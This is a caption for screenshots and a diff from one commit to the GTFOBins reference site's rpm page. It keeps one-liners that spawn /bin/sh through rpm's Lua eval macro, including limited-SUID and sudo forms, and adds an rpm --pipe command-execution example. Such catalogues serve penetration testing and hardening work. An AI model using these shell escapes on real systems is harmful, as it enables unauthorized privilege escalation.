

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/rpm.md, in a window 1280 px wide. Shown: the whole page at 85% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1087 px from its top, so only the background shows below that.

Commit message:
add `command` for `rpm` and delete unnecessary prefix

```diff
--- a/_gtfobins/rpm.md
+++ b/_gtfobins/rpm.md
@@ -2,8 +2,12 @@
 functions:
   shell:
     - code: rpm --eval '%{lua:os.execute("/bin/sh")}'
+  command:
+    - code: |
+            rpm --pipe '/bin/id > /tmp/result'
+            cat /tmp/result
   limited-suid:
-    - code: ./rpm --eval '%{lua:os.execute("/bin/sh")}'
+    - code: rpm --eval '%{lua:os.execute("/bin/sh")}'
   sudo:
     - code: sudo rpm --eval '%{lua:os.execute("/bin/sh")}'
     - description: |
```
